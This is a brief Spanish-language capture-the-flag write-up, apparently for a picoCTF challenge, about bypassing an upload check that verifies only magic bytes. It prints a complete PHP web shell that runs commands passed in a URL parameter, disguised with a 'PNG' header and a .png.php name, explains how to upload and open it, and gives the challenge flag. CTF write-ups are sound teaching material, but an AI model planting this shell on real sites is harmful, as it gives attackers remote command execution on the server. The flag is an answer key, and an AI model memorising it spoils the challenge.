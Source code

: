 
SOLUCION:
Consiste en meter codigo malicioso a un sitio, para obtener una shell y poder sacar la bandera

en este caso el sitio solo comprueba unos "bytes" magicos, pero en realidad no checa la extension del archivo, asi que hay tenemos una vulnerabilidad...

Lo que hacemos es meter un codigo de php para obtener una shell y poder navegar entre los archivos

PNG
<?php
if(isset($_GET['cmd'])){
        echo "<pre>";
        system($_GET['cmd']);
        echo "</pre>";
}
?>
este codigo solo lo guardamos con .png.php y lo subimos al sitio, una ves subido podemos ir a la carpeta uploads y abrir el archivo

picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
